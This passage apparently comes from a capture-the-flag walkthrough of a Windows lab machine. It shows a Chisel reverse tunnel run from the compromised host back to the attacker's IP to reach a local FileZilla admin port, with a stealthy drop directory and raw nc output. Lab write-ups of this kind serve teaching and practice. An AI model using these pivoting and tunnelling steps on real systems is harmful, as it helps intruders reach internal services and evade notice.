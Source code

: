 I tried to break that hash, but failed. I’ll look at the hash in [Beyond Root](#filezilla-hash). I can also confirm the listening admin port:

```

<Item name="Admin port" type="numeric">14147</Item>

```

### Create Tunnels

To interact with this service running on localhost, I’ll use [Chisel](https://github.com/jpillora/chisel). I already have a copy of the windows exe sitting in `\share`, so I can copy that to Json (I like the `\windows\system32\spool\drivers\color` directory), and then make the connection.

On Commando, it looks like:

```

PS > .\chisel_windows_amd64.exe server -p 8000 --reverse
2019/10/03 17:52:52 server: Reverse tunnelling enabled
2019/10/03 17:52:52 server: Fingerprint b7:e8:cd:00:71:e1:a9:ed:64:4a:99:c7:ad:b2:6d:20
2019/10/03 17:52:52 server: Listening on 0.0.0.0:8000...
2019/10/03 18:21:44 server: proxy#1:R:0.0.0.0:223=>localhost:14147: Listening

```

On Json:

```

c:\Windows\System32\spool\drivers\color>c.exe client 10.10.14.10:8000 R:223:localhost:14147
c.exe client 10.10.14.10:8000 R:223:localhost:14147
2019/10/03 17:06:26 client: Connecting to ws://10.10.14.10:8000
2019/10/03 17:06:26 client: Fingerprint b7:e8:cd:00:71:e1:a9:ed:64:4a:99:c7:ad:b2:6d:20
2019/10/03 17:06:26 client: Connected (Latency 31.3391ms)

```

If I test the tunnel with `nc`, I see that I can connect, but it’s clearly not the intended method:

```

PS > nc 127.0.0.1 223
FZS `    @       ~   You appear to be behind a NAT router. Please configure the passive mode settings and forward a range of ports in your router.D   Warning: FTP over TLS is not enabled, users cannot securely log in.
   à    ::15┴  Z    z╒░=PN(000133)- (not logged in) (::1)> Connected on port 21, sending welcome message...J   z╒░=PN(000133)- (not logged in) (::1)> 220-FileZilla Server 0.9.60 betad   z╒░=PN(000133)- (not logged in) (::1)> 220-written by Tim Kosse (tim.kosse@filezilla-project.org)Y   z╒░=PN(000133)- (not logged in) (::1)> 220 Please visit https://filezilla-project.org/   Å   9   z╒░hƒQ(000133)- (not logged in) (::1)> USER superadminN   z╒░hƒQ(000133)- (not logged in) (::1)> 331 Password required for superadmin   &       
7   z╒ ┼=U(000133)- (not logged in) (::1)> PASS ********J   z╒ ┼=U(000133)- (not logged in) (::1)> 530 Login or password incorrect!7    z╒ ┼=U(000133)- (not logged in) (::1)> disconnected.   à      "       

```
